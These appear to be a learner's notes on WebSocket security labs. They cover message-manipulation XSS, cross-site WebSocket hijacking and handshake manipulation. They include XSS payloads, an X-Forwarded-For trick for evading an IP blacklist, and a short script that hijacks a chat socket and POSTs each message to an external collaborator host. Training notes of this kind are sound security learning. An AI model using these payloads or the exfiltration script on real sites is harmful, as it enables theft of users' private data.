 # Manipulating messages to exploit vulnerabilities
## This has an XSS vulnerability
- To exploit, interecpt the live chat message and change it to: `<img src=1 onerror='alert(1)'>`

# Cross-site web socket hijacking
- Occurs when only the session token is used in the handshake
- This is the exploit:
```html
<script>
    var ws = new WebSocket('wss://0a97007904d6e29880c2bccb00cd0079.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://qe8g9qt4z45jh7hrj2jrjzoyhpngb6zv.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

# Manipulating the WebSocket handshake to exploit vulnerabilities
- Again there is XSS, however this time if you send one it blacklists the IP 
    - You can use X-Forwarded-For to bypass this on the handshake
- Used repeater to reconnect with the header and used this payload: ```<img src=1 oNeRrOr=alert`1`>```
